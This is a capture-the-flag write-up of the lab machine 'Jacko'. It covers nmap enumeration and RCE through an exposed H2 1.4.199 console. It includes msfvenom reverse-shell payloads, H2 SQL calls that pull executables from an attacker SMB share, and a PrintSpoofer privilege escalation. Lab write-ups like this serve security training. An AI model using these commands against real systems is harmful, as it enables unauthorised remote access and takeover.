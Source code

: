 
---
layout: default
title: x003-Jacko
nav_order: 2
has_children: true
parent: writeups
grand_parent: DylanGrl Writings
---

## x003-Jacko
### Enumeration
#### NMAP 
```sh
nmap -A -T4 192.168.95.66 -p-
```
Resulting in : 
```
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
7680/tcp open  pando-pub?
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2022-02-20T15:20:34
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

```

#### Web

Accessing directly the IP on our browser we notice that a webserver is running and that an H2 Database might be present on the server.

The console web server is also exposed on port 8082 (from the NMAP scan) and the default user allow us to access the console. 

We notice the version of the H2 running : 1.4.199

### Access
After a research on searchsploit we found an exploit for RCE : 

```bash
searchsploit H2 1.4.199
```

![](attachments/Pasted%20image%2020220220163503.png)

After executing all the step in the exploit we get the expected result, the console give us the RCE : 
![](attachments/Pasted%20image%2020220220163601.png)

The payload must be updated in order to obtain a reverse shell.
The payload was created with msfvenom : 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.218 LPORT=80 -f exe -o reverse.exe
```
It was served using the samba server inside impacket : 
```bash
python3 /opt/impacket/examples/smbserver.py -smb2support Share .  
```

Then we can download it on our target :
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\reverse.exe c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

And run it : 
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```


Once login in order to get access to the command we have to fix our PATH : 
```sql
set PATH=%PATH%;C:\Windows\System32;C:\Program Files
```

![](attachments/Pasted%20image%2020220220221531.png)

### Privilege Escalation

After executing winpeas, nothing suspicious was found. 

But after listing the software installed in order to check for potential privilege escalation, one software look possible to exploit : 
![](attachments/Pasted%20image%2020220301231633.png)
```sh
searchsploit PaperStream IP
```

![](attachments/Pasted%20image%2020220301230844.png)

Inside the exploit we have extra indication to generate the needed dll : 
```sh
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.49.218 LPORT=445
```

We expose our file using our Python SMB share and we use the following payload to download it : 
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\shell.dll c:\\users\\tony\\shell.dll").getInputStream()).useDelimiter("\\Z").next()');
```

We update or exploit before downloading it :
```powershell
$PayloadFile = "C:\Users\tony\shell.dll"
```

Then :
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\privesc.ps1 c:\\users\\tony\\privesc.ps1").getInputStream()).useDelimiter("\\Z").next()');
```

We wait for the privileged reverse shell : 
```sh
nc -lnvp 445
```


The reverse shell didn't show, we get back to common PrivEsc like PrintSpoofer : 

![](attachments/Pasted%20image%2020220301234220.png)

```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\PrintSpoofer64.exe c:\\users\\tony\\PrintSpoofer64.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Then we execute the exe and here we are : 
![](attachments/Pasted%20image%2020220301234528.png)

And we could retrieve the flag : 
![](attachments/Pasted%20image%2020220301234625.png)

